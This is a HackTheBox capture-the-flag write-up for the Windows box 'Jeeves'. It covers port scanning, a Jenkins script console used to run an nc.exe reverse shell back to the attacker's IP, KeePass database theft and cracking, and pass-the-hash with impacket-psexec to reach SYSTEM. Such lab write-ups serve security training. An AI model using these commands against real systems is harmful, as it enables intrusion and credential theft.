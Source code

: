 ```yaml
---
title: "Jeeves"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Jeeves

![](../assets/Pasted%20image%2020250613001628.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.63
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-13 00:16 CEST
Nmap scan report for 10.10.10.63
Host is up (0.041s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows 10 1607 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 11 (86%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Vista or Windows 7 (86%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-06-13T03:17:32
|_  start_date: 2025-06-13T03:16:20
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   40.72 ms 10.10.14.1
2   40.82 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.63 seconds
```

Website is about a web searcher

![](../assets/Pasted%20image%2020250613002040.png)

Upon searching, it shows an error image.

![](../assets/Pasted%20image%2020250613002156.png)

Port `50000` shows an error and the Jetty version.

![](../assets/Pasted%20image%2020250613003426.png)

Using `feroxbuster`, we find `/askjeeves`.

![](../assets/Pasted%20image%2020250613003522.png)

`/askjeeves` is a Jenkins instance `2.87`.

![](../assets/Pasted%20image%2020250613003625.png)

## Initial Access

We can go to the script console.

![](../assets/Pasted%20image%2020250613010454.png)

The easiest way is to put a base64-encoded PowerShell reverse shell.

Or we can also get `nc.exe` from an SMB share and connect back to a port.

```shell
println "\\\\10.10.14.17\\kali\\nc.exe -e cmd 10.10.14.17 443".execute().text
```

Either way,

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49678
whoami
jeeves\kohsuke
```

Get the flag:

```shell
PS C:\users\kohsuke\desktop> type user.txt
e3232272596fb47950d59c4cf1e7066a
```

## Privilege Escalation

There is a KeePass file inside `documents`.

```shell
PS C:\users\kohsuke\documents> ls


    Directory: C:\users\kohsuke\documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx  
```

Start an `impacket-smbserver` and copy the file.

```shell
PS C:\users\kohsuke\documents> cp CEH.kdbx \\10.10.14.17\kali
```

With `keepass2john`, get the hash and then with `john` crack it.

```shell
$ keepass2john CEH.kdbx > hash             

$ cat hash      
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

![](../assets/Pasted%20image%2020250613011514.png)

Open the file with `keepassxc` or `kpcli`.

![](../assets/Pasted%20image%2020250613011759.png)

Get the NTLM hash of backup stuff and pass the hash to enter.

```shell
$ impacket-psexec administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file eXJgnHqs.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service BUPi on 10.10.10.63.....
[*] Starting service BUPi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flag:

```shell
c:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

We need to `dir` with alternative data streams using `/R`.

```shell
C:\Users\Administrator\Desktop> dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,640,015,360 bytes free

C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc5bd4b615a60648cec41c6ac92530
```
